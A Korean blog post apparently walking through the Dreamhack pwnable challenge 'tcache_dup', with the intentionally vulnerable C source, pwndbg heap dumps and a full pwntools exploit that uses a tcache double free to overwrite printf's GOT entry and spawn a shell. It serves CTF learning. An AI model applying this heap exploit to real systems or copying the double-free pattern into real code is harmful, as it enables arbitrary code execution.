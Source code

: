 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN tcache_dup"
excerpt: "드림핵 포너블 tcache_dup 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-26 19:00
---
```


드림핵 tcache_dup 문제풀이다. 해당 문제 페이지를 보면 다음과 같은 tcache_dup 취약점에 대한 설명이 나와있다. [https://learn.dreamhack.io/16#82](https://learn.dreamhack.io/16#82)

tcache는 더블프리 버그같은 취약점을 검증하지 않아 여러 bin에서의 공격이 쉬운편이다. tcache dup 취약점은 double free 버그를 이용하여 힙이 할당될 때 같은 공간에 두번 할당 할 수 있다. 또한 값을 쓸 수 있다면 이 영역의 값을 변조하는 것도 가능하다. 

이 바이너리의 경우 printf 함수의 got영역에 get_shell()함수의 주소를 입력해 printf가 실행되면 쉘 획득이 가능하게 문제를 풀었다.

해당 바이너리의 소스코드는 다음과 같다.

```c
// gcc -o tcache_dup tcache_dup.c -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

char *ptr[10];

void alarm_handler() {
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int create(int cnt) {
    int size;

    if(cnt > 10) {
        return -1; 
    }
    printf("Size: ");
    scanf("%d", &size);

    ptr[cnt] = malloc(size);

    if(!ptr[cnt]) {
        return -1;
    }

    printf("Data: ");
    read(0, ptr[cnt], size);
}

int delete() {
    int idx;

    printf("idx: ");
    scanf("%d", &idx);

    if(idx > 10) {
        return -1; 
    }

    free(ptr[idx]);
}

void get_shell() {
    system("/bin/sh");
}

int main() {
    int idx;
    int cnt = 0;

    initialize();

    while(1) {
        printf("1. Create\n");
        printf("2. Delete\n");
        printf("> ");
        scanf("%d", &idx);

        switch(idx) {
            case 1:
                create(cnt);
                cnt++;
                break;
            case 2:
                delete();
                break;
            default:
                break;
        }
    }

    return 0;
}
```

64비트 환경에서 got값을 덮을 예정이기에 1번을 입력해 8바이트 메모리를 할당 받는다. 할당받은 메모리의 포인터는 ptr배열에 저장되어 0번은 우리가 할당받은 8바이트 메모리를 가리킨다. 이후 0번 포인터를 2번 메뉴를 통해 2번 free한다. 이후 tcache 정보를 보면 다음과 같다.

```c
pwndbg> tcache
{
  counts = "\002", '\000' <repeats 62 times>,
  entries = {0x1114260, 0x0 <repeats 63 times>},
}
```
tcache_entry에 다음에 할당될 힙 주소인 0x1114260가 있고 이는 2번 free한 주소이다. 이후 1번을 통해서 8바이트를 할당한 후 데이터에 printf got를 넣는다. double free가 일어나 다음에 할당될 주소가 printf got가 들어갈 것이다 pwndbg의 bins 명령을 통해 tcache bins 정보를 불어오면 다음과 같다.

```c
pwndbg> bins
pwndbg will try to resolve the heap symbols via heuristic now since we cannot resolve the heap via the debug symbols.
This might not work in all cases. Use `help set resolve-heap-via-heuristic` for more details.

tcachebins
0x20 [  1]: 0x13b5260 —▸ 0x601038 (printf@got[plt]) ◂— ...
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

프로세스를 끝낸 뒤 다시 실행해 힙 주소는 다르지만 tcache에 예약된 청크를 보면 원래 할당된 메모리 뒤로 printf got가 할당된 것을 볼 수 있다. 따라서 이후 8바이트를 두번 할당 받을 것인데, 첫번째는 0x13b5260 주소의 메모리 위치가, 두번째는 printf got메모리 위치가 할당 될 것이다.

따라서 1번을 통해 8바이트 할당 후 임의 데이터를 입력한 뒤 또 1번을 통해 8바이트를 할당받아 get_shell() 함수 주소를 넣으면 printf got에 get_shell() 함수 주소가 쓰여 printf가 호출될때 쉘을 획득할 수 있다.

익스플로잇 코드는 다음과 같다.
```python
from pwn import *
context.update(arch='amd64', os='linux')

#p = remote("host3.dreamhack.games", 20376);
p = process("./tcache_dup", env={'LD_PRELOAD':'./libc-2.27.so'})
#p = process("./house_of_spirit")
libc=ELF('./libc-2.27.so')

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendafter(b"Data: ", b"A"*8)

p.sendlineafter("> ", b"2")
p.sendlineafter(b"idx: ", b"0")
p.sendlineafter("> ", b"2")
p.sendlineafter(b"idx: ", b"0")

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendafter(b"Data: ", p64(0x601038)) #printf got

p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendlineafter(b"Data: ", b"A"*8)


p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"Size: ", str(8))
p.sendlineafter(b"Data: ", p64(0x400ab0)) #get_shell()

p.interactive()
```